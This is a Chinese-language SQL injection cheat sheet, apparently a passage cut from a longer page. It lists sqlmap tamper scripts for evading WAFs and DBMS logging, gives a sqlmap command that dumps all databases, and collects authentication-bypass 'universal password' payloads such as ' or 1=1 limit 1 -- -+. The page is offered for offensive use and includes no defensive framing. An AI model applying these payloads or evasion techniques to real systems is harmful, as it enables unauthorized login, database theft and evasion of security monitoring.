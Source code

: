 |securesphere.py |附加特殊制作的字符串 |
|sp_password.py |  将“sp_password”附加到有效负载的末尾，以便从 DBMS 日志中自动混淆 |
|space2comment.py | 用注释替换空格字符 (' ') |
|space2dash.py | 用破折号注释 ('--') 后跟随机字符串和换行符 ('\n') 替换空格字符 ('') |
|space2hash.py | 将空格字符 (' ') 替换为井号字符 ('#')，后跟随机字符串和换行符 ('\n') |
|space2morehash.py | 将空格字符 (' ') 替换为井号字符 ('#')，后跟随机字符串和换行符 ('\n') |
|space2mssqlblank.py | 用一组有效替代字符中的随机空白字符替换空格字符 (' ') |
|space2mssqlhash.py | 用井号字符 ('#') 后跟换行符 ('\n') 替换空格字符 ('')|
|space2mysqlblank.py | 用一组有效替代字符中的随机空白字符替换空格字符 (' ') |
|space2mysqldash.py | 用破折号注释 ('--') 后跟换行符 ('\n') 替换空格字符 ('') |
|space2plus.py |  将空格字符 (' ') 替换为加号 ('+')  |
|space2randomblank.py | 用一组有效替代字符中的随机空白字符替换空格字符 (' ') |
|symboliclogical.py | 将 AND 和 OR 逻辑运算符替换为对应的符号（&& 和||） |
|unionalltounion.py | 将 UNION ALL SELECT 替换为 UNION SELECT |
|unmagicquotes.py | 将引号字符 (') 替换为多字节组合 %bf%27 以及末尾的通用注释 |
|uppercase.py | 用大写值“INSERT”替换每个关键字字符|
|varnish.py | 附加 HTTP 标头“X-originating-IP” |
|versionedkeywords.py | 用版本化 MySQL 注释将每个非函数关键字括起来 |
|versionedmorekeywords.py | 用版本化的 MySQL 注释将每个关键字括起来 |
|xforwardedfor.py | 附加一个虚假的 HTTP 标头“X-Forwarded-For”|

 #### 使用账户密码访问数据库
sqlmap.py -d "mysql://user:pass@ip/database" --dump-all 
 #### 身份验证绕过 - 万能账户密码
	'-'
	' '
	'&'
	'^'
	'*'
	' or 1=1 limit 1 -- -+
	'="or'
	' or ''-'
	' or '' '
	' or ''&'
	' or ''^'
	' or ''*'
	'-||0'
	"-||0"
	"-"
	" "
	"&"
	"^"
	"*"
	'--'
	"--"
	'--' / "--"
	" or ""-"
	" or "" "
	" or ""&"